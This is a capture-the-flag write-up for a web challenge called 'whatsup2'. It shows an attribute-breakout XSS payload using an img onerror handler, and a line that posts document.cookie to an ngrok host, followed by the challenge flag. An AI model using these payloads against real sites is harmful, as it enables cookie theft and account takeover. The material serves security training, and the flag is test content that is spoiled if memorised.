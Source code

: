 # whatsup2

## What is it

Same as whatsup, except we can also send an image.

The method used in whatsup doesn't work, the html is not interpreted.

## Solution

The way the image link is inserted in the element probably looks something like this:
```js
'<img src="' + input + '">'
```

We can put '"' in our input to change other properties.

We can execute code by putting a bad link and putting code in ```src/onerror``` ([source](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#onerror))

Input:
```
abc" src/onerror="alert(1)
```
Result html:
```html
<img src="abc" src/onerror="alert(1)">
```

We can then use the same method we used in whatsup to get the cookie:
```
abc" src/onerror="fetch('https://7f09-163-5-23-68.eu.ngrok.io', {method: 'post', body: document.cookie})
```

flag: ```BFS{4n_1m4g3_79_w0r7h_a_7h0u54nd_w0rd5}```
